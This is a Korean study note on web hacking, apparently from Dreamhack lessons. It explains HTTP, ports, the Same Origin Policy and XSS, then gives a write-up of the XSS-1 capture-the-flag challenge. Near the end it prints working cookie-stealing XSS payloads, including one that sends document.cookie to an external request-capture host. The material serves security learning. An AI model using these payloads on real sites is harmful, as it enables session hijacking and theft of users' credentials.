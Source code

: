 # Web Hakcing

## STAGE 2 



## HTTP



    HTTP : 서버와 클라이언트의 데이터 교환을 요청하고 응답하는 형식의 
    정의를 한 프로토콜 중 하나이다.

    *웹 서버는 HTTP 서버를 HTTP 서비스 포트에 대기시킨다.
    =이러한 포트는 일바전으로 TCP/80 or TCP/8080 이다.


## Network Port/Service Port

    네트워크 포트 : 네트워크에서 서버와 클라이언트가 정보를 교환하는 
    추상화된 장소를 의미한다.

    *0번 부터 65535번까지, 총 65536개의 같은 수의 네트워크 포트를 사용한다.


    서비스 포트 : 네트워크 포트 중에서 특정 서비스가 점유하고 있는 포트를 말함.
    Ex) HTTP가 80번 포트를 점유하고 있다면 서비스 포트는 80번 포트가 된다.


## Request
 
    /index.html
    
    HTTP/1.1
    Host: dreamhack.io
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

## Response

    HTTP/1.1  200 ok

    
    Server: Apache/2.4.29 (Ubuntu)
    Content-Length: 61
    Connection: Keep-Alive
    Content-Type: text/html

    <!doctype html>
    <html>
    <head>
    </head>
    <body>
    </body>
    </html>



### `Same Origin Policy의 오리진

    
    오리진 : 프로토콜, 포트, 호스트로 구성이 됨.
    * 모두 일치해야 동일한 오리진이라고 할 수 있음.


![오리진](https://cdn.discordapp.com/attachments/956190154454876183/1022424599792726056/unknown.png)



### `XSS`


    XSS : 클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에
    악성 스크립트를 삽입을 하여서 이용자의 웹 브라우저에서 해당
    스크립트를 실행할 수 있다.



## `XSS 발생 종류와 설명`


 ![XSS](https://media.discordapp.net/attachments/956190154454876183/1022464035733635092/unknown.png?width=477&height=408)



 ## `XSS 스크립트의 예시`


+ 쿠키 및 세션 탈취 공격 코드


![쿠키/세션 탈취 공격 코드](https://cdn.discordapp.com/attachments/956190154454876183/1022466126434795570/unknown.png)


+ 페이지 변조 공격 코드/ 위치 이동 공격 코드


![페이지 변조 공격/위치 이동 공격](https://cdn.discordapp.com/attachments/956190154454876183/1022466146139639828/unknown.png)



### `Stored XSS`


    Stored XSS : 서버의 데이터베이스 또는 파일 등의 형태로 저장된
    악성 스크립트를 조회할 때 발생하는 XSS이다.

    Ex) 게시물/댓글에 악성 스크립트를 포함하여 업로드 하는 방식임.


### `XSS-1`

    / : 인덱스 페이지
    /vuln : 이용자가 입력한 값을 출력을 하는 것
    /meno : 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력
    /flag : 전달된 URL에 임의 이용자가 접속하게 함. 
      => 해당 이용자의 쿠키에는 FLAG가 존재함.


# 쿠키 탈취

## memo 페이지 사용

    flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면
    memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있음

    <script>location.href = "/memo?memo="+document.cookie;</script>

## 웹 서버 사용

    외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있음
    flag 기능에서 다음과 같은 익스플로잇 코드를 입력하면,
    접속 기록에 포함된 FLAG를 확인할 수 있다.

    <script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>


`FALG page =>  <svg/onload=location="/memo?memo="+document.cookie;>`

    SVG 태그는 벡터 그래픽을 표현할 때 사용되는 데 이 태그를 이용하여 XSS 
    테스트가 가능하다.
















